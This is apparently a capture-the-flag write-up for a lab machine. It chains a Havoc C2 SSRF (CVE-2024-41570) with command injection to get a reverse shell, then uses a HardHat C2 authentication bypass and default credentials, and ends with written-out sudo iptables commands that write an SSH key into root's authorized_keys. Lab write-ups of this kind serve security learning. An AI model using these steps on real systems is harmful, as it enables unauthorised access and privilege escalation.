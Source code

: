 Started with a nmap scan
```
22 OpenSSH 9.2p1
443 nginx 1.22.1
5000 hardhat
7096 hardhat
8000 nginx 1.22.1
```
Going to the website on port `443` we get `404 error` going to run a gobuster on the host and see if there is anything we can find did not find anything on the server 
Now going to port `8000` there is a directory listing of some havoc c2 and there is two files `disable_tls.patch` and `havoc.yaotl` and doing some research there is a SSRF exploit `CVE-2024-41570` and we can chain this with a command injection vulnerability to get a reverse shell there is also a script someone made to automate this `https://github.com/temporaryJustice/Havoc-C2-RCE-2024/tree/main` we just need to modify the user and password and the payload and then running this command 
`python3 poc.py --target https://10.10.11.49/ -i 127.0.0.1 -p 40056`
and now we are the user `ilya` and the shell does not last long so when we get the callback we need to add are ssh key to the authorized keys file and now we have a stable shell on the box and we see a file called `hardhat.txt` in the home folder and it says that `Sergej` installed hardhat c2 for testing and when we look at open ports there is `5000,7096` running we need to forward those to are host and we can login with `sth_pentest:sth_pentest` I followed this blog on how to access the login `https://blog.sth.sh/hardhatc2-0-days-rce-authn-bypass-96ba683d9dd7` and now we can go to this link `https://127.0.0.1:7096/ImplantInteract` and add are ssh keys and now we are the user `sergej` and if we run `sudo -l` we can run and save iptables and we can exploit this to add are ssh pub key to the authorized_keys file 
```
sudo -u root /usr/sbin/iptables -A INPUT -i lo -j ACCEPT -m comment --comment $'\nssh-ed25519 PUB-Key\n'  
sudo iptables-save -f /root/.ssh/authorized_keys
```
and now we can SSH into the root user 

